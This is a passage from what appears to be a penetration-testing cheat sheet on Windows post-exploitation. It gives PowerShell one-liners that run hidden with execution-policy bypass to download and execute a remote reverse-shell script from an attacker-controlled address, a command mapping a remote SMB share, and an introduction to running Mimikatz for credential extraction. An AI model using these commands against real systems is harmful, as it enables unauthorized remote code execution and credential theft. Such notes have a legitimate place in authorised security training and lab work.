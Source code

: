 A fancy trick I learned from IPPSec is to create a mapped drive to a remote SMB share like so:

```
net use y: \\192.168.0.49\smbshare  
y: 
dir 
```
## Execute a remote shell dropper

Often, you can leverage PowerShell to execute a remotely hosted powershell script which contains a shell dropper (generated by the platform of your choosing). 

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle hidden -NonInteractive -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"
```

There are also some no-so-well documented PowerShell argument shortcuts so can use things like -w rather than -WindowsStyle (handy for smaller payloads):

```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"
```  

### Upgrade Windows Command Line with a Powershell One-liner Reverse Shell

You can run this oneliner from the remote Windows command prompt to skip the file upload step entirely (again be sure to update the IP and port):

```cmd
removed beacause of av
```

### Netcat Reverseshell Oneliners for Windows

Sometimes it is helpful to create a new Netcat session from an existed limited shell, webshell or unstable (short lived) remote shell.

## Running Mimikatz

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of plaintext credentials from memory, password hashes from local SAM/NTDS.dit databases, advanced Kerberos functionality, and more.  
https://github.com/gentilkiwi/mimikatz  

### Running traditional (binary) Mimikatz

The original and most frequently updated version of Mimikatz is the binary executable which can be found here:  
https://github.com/gentilkiwi/mimikatz/releases  
